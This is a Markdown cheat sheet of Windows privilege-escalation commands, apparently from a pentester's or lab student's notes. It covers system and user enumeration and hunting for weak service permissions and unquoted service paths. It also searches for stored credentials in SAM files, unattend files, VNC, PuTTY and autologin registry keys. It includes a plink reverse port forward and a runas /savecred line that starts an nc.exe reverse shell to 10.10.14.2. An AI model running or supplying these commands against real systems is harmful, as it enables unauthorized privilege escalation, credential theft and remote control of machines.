 # Windows Privilege Escalation

### patch level  
systeminfo  
wmic qfe get Caption,Description,HotFixID,InstalledOn  

whoami  
echo %USERNAME%  

net user  
net localgroup  

users in a domain  
net user /domain  

net group /domain  
net group /domain <Group Name>  

### Firewall  
netsh firewall show state  
netsh firewall show config  

### Network  
ipconfig /all  
route print  
arp -A  

### Scheduled Tasks  
schtasks /query /fo LIST /v  
--copy output and save in txt  
cat schtask.txt | grep "SYSTEM\|Task To Run" | grep -B 1 SYSTEM  

dir %SystemRoot%\Tasks  

e.g. c:\windows\tasks\  
e.g. c:\windows\system32\tasks\  

### Weak Service Permissions  
Check service config can be modify or not  

accesschk.exe /accepteula  
accesschk.exe -uwcqv "Authenticated Users" * /accepteula  
accesschk.exe -ucqv \<Service Name>  

sc qc \<Service Name> -- Get service details  

Check service with weak file permission  
User c:\windows\temp\  

wmic.exe  
for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> c:\windows\temp\permissions.txt
for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\permissions.txt) do cmd.exe /c icacls "%a"  

sc.exe  
sc query state= all | findstr "SERVICE_NAME:" >> Servicenames.txt  
FOR /F %i in (Servicenames.txt) DO echo %i  
type Servicenames.txt  
FOR /F "tokens=2 delims= " %i in (Servicenames.txt) DO @echo %i >> services.txt  
FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt  

### Unquoted Service Path  
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """  

sc query  
sc qc service name  

### AlwaysInstallElevated << IF 64 bits use:  %SystemRoot%\Sysnative\reg.exe  
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated  
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated  

### Service only available from inside  
netstat -ano  
upload plink.exe  

plink.exe -R "remote port":127.0.0.1:"local port"  root@"ipaddress"

### Pasword in files  
https://pentestlab.blog/tag/privilege-escalation/page/3/  
cmdkey /list        << If there are entries, it means that we may able to runas certain user who stored his cred in windows  
runas /savecred /user:ACCESS\Administrator "c:\windows\system32\cmd.exe /c \\IP\share\nc.exe -nv 10.10.14.2 80 -e cmd.exe"  

Can we find any SAM files?  
%SYSTEMROOT%\repair\SAM  
%SYSTEMROOT%\System32\config\RegBack\SAM  
%SYSTEMROOT%\System32\config\SAM  
%SYSTEMROOT%\repair\system  
%SYSTEMROOT%\System32\config\SYSTEM  
%SYSTEMROOT%\System32\config\RegBack\system  

findstr /si password *.txt  
findstr /si password *.xml  
findstr /si password *.ini  
findstr /si pass/pwd *.ini  

dir /s *pass* == *cred* == *vnc* == *.config*  

in all files  
findstr /spin "password" *.*  
findstr /spin "password" *.*  

Unattended? vnc?  
c:\sysprep.inf  
c:\sysprep\sysprep.xml  
c:\unattend.xml  
%WINDIR%\Panther\Unattend\Unattended.xml  
%WINDIR%\Panther\Unattended.xml  

dir /b /s unattend.xml  
dir /b /s web.config  
dir /b /s sysprep.inf  
dir /b /s sysprep.xml  
dir /b /s *pass*  

dir c:\*vnc.ini /s /b  
dir c:\*ultravnc.ini /s /b   
dir c:\ /s /b | findstr /si *vnc.ini  

### VNC  
reg query "HKCU\Software\ORL\WinVNC3\Password"  
reg query "HKCU\Software\TightVNC\Server"  

### Windows autologin  
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"  
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"  

### SNMP Paramters  
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"  

### Putty  
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"  

### Search for password in registry  
reg query HKLM /f password /t REG_SZ /s  
reg query HKCU /f password /t REG_SZ /s  







